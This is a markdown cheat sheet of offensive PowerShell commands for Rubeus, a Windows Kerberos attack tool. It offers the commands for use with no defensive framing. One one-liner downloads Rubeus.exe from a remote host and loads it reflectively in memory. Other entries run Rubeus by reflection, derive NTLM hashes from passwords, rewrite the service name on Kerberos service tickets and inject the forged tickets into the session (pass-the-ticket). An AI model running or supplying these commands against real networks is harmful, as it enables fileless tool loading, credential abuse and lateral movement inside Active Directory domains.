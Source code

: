 # rubeus

% ad, windows, rubeus

#plateform/windows #target/local 

## load rubeus from powershell
#cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<dl_rubeus_path>Rubeus.exe');$assem = [System.Reflection.Assembly]::Load($data);
```
= dl_rubeus_path: windows/NetFramework_4.7_x64/

## execute rubeus from powershell
#cat/UTILS 
```powershell
[Rubeus.Program]::MainString("klist");
```
## Rubeus Reflection assembly
#cat/ATTACK/EXPLOIT 
```powershell
[Rubeus.Program]::Main("<rubeus_cmd>".Split())
```

## redirect output
```
/consoleoutfile:c:\temp\file.txt
```


## Misc - get ntlm hash from password
#cat/POSTEXPLOIT/CREDS_RECOVER 
```
.\Rubeus.exe hash /password:<password>
```

## Misc - change TGS service name
#cat/ATTACK/EXPLOIT 
```powershell
.\Rubeus.exe tgssub /ticket:<kirbi_path_or_b64_blob> /altservice:<service|cifs>/<target>  /nowrap
```

## Misc - change TGS service name and inject it
#cat/ATTACK/EXPLOIT 
```powershell
.\Rubeus.exe tgssub /ticket:<kirbi_path_or_b64_blob> /altservice:<service|cifs>/<target>  /nowrap /ptt
```

